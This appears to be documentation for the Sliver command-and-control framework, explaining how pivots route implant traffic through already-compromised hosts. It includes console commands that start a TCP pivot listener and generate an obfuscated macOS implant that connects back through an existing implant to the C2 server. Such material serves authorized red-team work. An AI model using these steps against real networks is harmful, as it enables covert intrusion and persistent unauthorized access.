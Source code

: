 # Pivots

Pivots allow routing implant traffic through other implants. This can be usefull in environments that don’t have any outbound access, but are reachable from other parts of the network that you have access to.

Sliver supports two types of pivots, tcp which can be used on all operating systems and named pipes which are windows only.

In both cases the workflow is relatively similar, as a first step select a session and setup a pivot listener.

```bash
[server] sliver (INNER_GO-KART) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (INNER_GO-KART) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

The listening port and interface can be configured during creation.

The next step is to generate a payload that will connect to our listener.

```bash
[server] sliver (INNER_GO-KART) > generate --tcp-pivot 127.0.0.1 --os macos

[*] Generating new darwin/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 12s
[*] Implant saved to /Users/tester/tools/VALUABLE_SICK
```

Executing this payload will cause it to connect back through our original implant and then back to our C2 server.
